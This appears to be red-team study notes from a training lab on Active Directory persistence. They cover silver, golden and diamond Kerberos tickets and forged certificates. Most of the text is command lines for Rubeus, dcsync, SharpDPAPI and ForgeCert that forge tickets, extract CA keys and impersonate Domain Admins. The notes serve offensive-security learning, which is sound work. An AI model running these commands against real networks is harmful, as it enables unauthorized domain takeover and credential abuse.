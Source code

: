 # Domain Dominance Notes

### Silver tickets

a forged service ticket, signed using the secret material (RC4/AES keys) of a computer account.

if we have dumped kerb keys for a machine account we can use them on our windows attacking machine to make a service ticket for a user
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/<machine account> /aes256:<key> /user:<user> /domain:<domain> /sid:<domain sid> /nowrap
```

import ticket in beacon
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:<base64>
steal_token <PID>
```

Here are some useful ticket combinations:

Technique -	Required Service Tickets
psexec - HOST & CIFS
winrm	- HOST & HTTP
dcsync - (DCs only)	LDAP


### Golden tickets

forged TGT, signed by the domain's krbtgt account

common to get krbtgt is after a dcsync
```
dcsync <dcd> <krbtgt account>
```

offline ticket creation
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<key> /user:<user> /domain:<domain> /sid:<domain sid> /nowrap
```

import it
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<user> /password:FakePass /ticket:<base64>
steal_token <PID>
```

### Diamond tickets

A "diamond ticket" is made by modifying the fields of a legitimate TGT that was issued by a DC.  This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it. 

create with rubues in beacon
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:<aes hash> /nowrap
```
- /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the current user
- /ticketuser is the username of the user to impersonate.
- /ticketuserid is the domain RID of that user.
- /groups are the desired group RIDs (512 being Domain Admins).
- /krbkey is the krbtgt AES256 hash.

use rubues describe to show the info of the TGT
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:<base64>
```

### Forged Certificates

Tools:
[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
[ForgeCert](https://github.com/GhostPack/ForgeCert)

once on a CA, extract the private keys
```
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine
```

Save the private key and certificate to a .pem file and convert it to a .pfx with openssl
```
C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123
```

the user does need to be present in AD.  We can now use Rubeus to request a legitimate TGT with this forged certificate.
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap
```


